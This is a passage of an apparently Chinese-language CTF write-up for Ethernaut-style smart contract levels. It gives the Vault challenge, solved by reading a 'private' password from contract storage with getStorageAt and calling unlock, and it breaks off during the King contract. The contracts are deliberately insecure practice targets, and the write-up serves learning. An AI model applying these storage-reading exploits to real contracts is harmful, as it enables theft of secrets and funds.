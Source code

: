 ## Vault

??? question "题目合约"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;

    contract Vault {
        bool public locked;
        bytes32 private password;

        constructor(bytes32 _password) public {
            locked = true;
            password = _password;
        }

        function unlock(bytes32 _password) public {
            if (password == _password) {
                locked = false;
            }
        }
    }
    ```

由于区块链上的一切都是公开的，因此private变量也是可以看到的，下面就用了Tony老师的解题代码。

```js
> await web3.eth.getStorageAt(instance, 1) // 0 为 locked 的位置，1 为 password
'0x412076657279207374726f6e67207365637265742070617373776f7264203a29'
> web3.utils.toAscii("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")
'A very strong secret password :)'
> await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")
// 参数是 bytes32，所以不能直接传字符串进去
```

## King

??? question "题目合约"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;

    contract King {
        address payable king;
        uint public prize;
        address payable public owner;

        constructor() public payable {
            owner = msg.sender;  
            king = msg.sender;
            prize = msg.value;
        }

        receive() external payable {
            require(msg.value >= prize || msg.sender == owner);
            king.transfer(msg.value);
            king = msg.sender;
            prize = msg.value;
        }
